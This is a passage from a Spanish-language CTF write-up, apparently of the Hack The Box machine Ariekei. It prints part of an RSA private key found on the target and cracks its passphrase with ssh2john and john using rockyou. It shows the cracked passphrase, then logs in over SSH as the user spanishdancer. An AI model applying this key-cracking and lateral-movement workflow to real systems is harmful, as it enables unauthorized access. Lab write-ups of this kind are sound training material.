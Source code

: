 ```null
IC8VFmW03ERheVM6Ilnr8HOcOQnPHgYM5iTM79X70kCWoibACDuEHz/nf6tuLGbv
N01CctfSE+JgoNIIdb4SHxTtbOvUtsayQmV8uqzHpCQ3FMfz6uRvl4ZVvNII/x8D
u+hRPtQ1690Eg9sWqu0Uo87/v6c/XJitNYzDUOmaivoIpL0RO6mu9AhXcBnqBu3h
oPSgeji9U7QJD64T8InvB7MchfaJb9W/VTECST3FzAFPhCe66ZRzRKZSgMwftTi5
hm17wPBuLjovOCM8QWp1i32IgcdrnZn2pBpt94v8/KMwdQyAOOVhkozBNS6Xza4P
18yUX3UiUEP9cmtz7bTRP5h5SlDzhprntaKRiFEHV5SS94Eri7Tylw4KBlkF8lSD
WZmJvAQc4FN+mhbaxagCadCf12+VVNrB3+vJKoUHgaRX+R4P8H3OTKwub1e69vnn
QhChPHmH9SrI2TNsP9NPT5geuTe0XPP3Og3TVzenG7DRrx4Age+0TrMShcMeJQ8D
s3kAiqHs5liGqTG96i1HeqkPms9dTC895Ke0jvIFkQgxPSB6y7oKi7VGs15vs1au
9T6xwBLJQSqMlPewvUUtvMQAdNu5eksupuqBMiJRUQvG9hD0jjXz8f5cCCdtu8NN
8Gu4jcZFmVvsbRCP8rQBKeqc/rqe0bhCtvuMhnl7rtyuIw2zAAqqluFs8zL6YrOw
lBLLZzo0vIfGXV42NBPgSJtc9XM3YSTjbdAk+yBNIK9GEVTbkO9GcMgVaBg5xt+6
uGE5dZmtyuGyD6lj1lKk8D7PbCHTBc9MMryKYnnWt7CuxFDV/Jp4fB+/DuPYL9YQ
8RrdIpShQKh189lo3dc6J00LmCUU5qEPLaM+AGFhpk99010rrZB/EHxmcI0ROh5T
1oSM+qvLUNfJKlvqdRQr50S1OjV+9WrmR0uEBNiNxt2PNZzY/Iv+p8uyU1+hOWcz
-----END RSA PRIVATE KEY-----
```

La crackeo con ```john```

```null
ssh2john id_rsa > hash
```

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
purple1          (id_rsa)     
1g 0:00:00:00 DONE (2023-03-16 17:27) 50.00g/s 33600p/s 33600c/s 33600C/s evelyn..kelly
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Suponiendo que la clave pública corresponde a la ```id_rsa```, me conecto como ese usuario

```null
root@beehive:/home/spanishdancer/.ssh# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC325QNrOHp+Ob93i/XR2XkXZ1k/ypSbKhdcKB2CQLNW1jXp+CKnb5wmin/hEJ8u3Crm5YsFjg/K/x6hBDa0TwpwQxIZ7y1JbWFXL3XRdvpi6YrIMdUwGs3lCAUwJhazVnOUAY92EnoLdQlbPgXT4gVxMfW37YDBC3Gg2YJRKUkrDaYsI9oxvGMU1vmigb/0Ck/+kG/n0yOa0NBb2orEwQYoqX1cW4PnuTmR7bD53PsWmNcYhLxSvd783tz9Q/Np7q9/ziPo2QCN1R0fY7UykmASA1hedfI6C2mUKaETN4vKnfVeppb5m7wXhkSlYULE5PcmXuGoYCD6WtwAzPiwb1r spanishdancer@ariekei.htb
```

Gano acceso a la máquina víctima

```null
ssh spanishdancer@ariekei.htb -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Nov 13 10:23:41 2017 from 10.10.14.2
spanishdancer@ariekei:~$ hostname -I
10.10.10.65 172.23.0.1 172.17.0.1 172.24.0.1 dead:beef::250:56ff:feb9:4316 
```